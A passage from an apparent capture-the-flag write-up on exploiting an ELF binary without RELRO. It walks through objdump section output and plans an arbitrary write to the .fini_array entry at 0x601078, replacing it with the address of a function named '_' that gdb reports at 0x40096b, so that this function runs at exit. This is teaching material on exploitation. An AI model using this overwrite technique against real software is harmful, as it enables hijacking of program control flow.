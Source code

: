 ```asm
 12 .text         000004f2  00000000004007b0  00000000004007b0  000007b0  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 13 .fini         00000009  0000000000400ca4  0000000000400ca4  00000ca4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 14 .rodata       00000142  0000000000400cb0  0000000000400cb0  00000cb0  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 15 .eh_frame_hdr 0000007c  0000000000400df4  0000000000400df4  00000df4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 16 .eh_frame     00000200  0000000000400e70  0000000000400e70  00000e70  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 17 .init_array   00000008  0000000000601070  0000000000601070  00001070  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 18 .fini_array   00000008  0000000000601078  0000000000601078  00001078  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 19 .dynamic      000001d0  0000000000601080  0000000000601080  00001080  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 20 .got          00000010  0000000000601250  0000000000601250  00001250  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 21 .got.plt      00000078  0000000000601260  0000000000601260  00001260  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 22 .data         00000010  00000000006012d8  00000000006012d8  000012d8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 23 .bss          00000020  00000000006012f0  00000000006012f0  000012e8  2**4
                  ALLOC
 24 .comment      00000029  0000000000000000  0000000000000000  000012e8  2**0
                  CONTENTS, READONLY
```

We need to take care to the following:
```asm
13 .fini         00000009  0000000000400ca4  0000000000400ca4  00000ca4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 18 .fini_array   00000008  0000000000601078  0000000000601078  00001078  2**3
                  CONTENTS, ALLOC, LOAD, DATA
```
.fini is the analogous function pointer to the one that handles calling destructor functions (And we know It's must be called, And we can overwrite this address becaufe No RELRO).

.fini_array contains pointers to all the program-level finalizers.

We can read about .fini and .fini_array [here](http://blog.k3170makan.com/2018/10/introduction-to-elf-format-part-v.html) and [here](https://stackoverflow.com/questions/34966097/what-functions-does-gcc-add-to-the-linux-elf).

So we can overwrite one of .fini_array (Which is without READONLY flag) addresses with ```_``` function (0x601078=> <```_``` function address>).

As we said before - we can write the content of the second input to the address pointed by the first input.

So we know which address we want to overwrite - ```0x601078``` (from .fini_array), Now we just need to get the address of ```_``` function using gdb:

```console
gef➤ p _
$3 = {<text variable, no debug info>} 0x40096b <_>
```
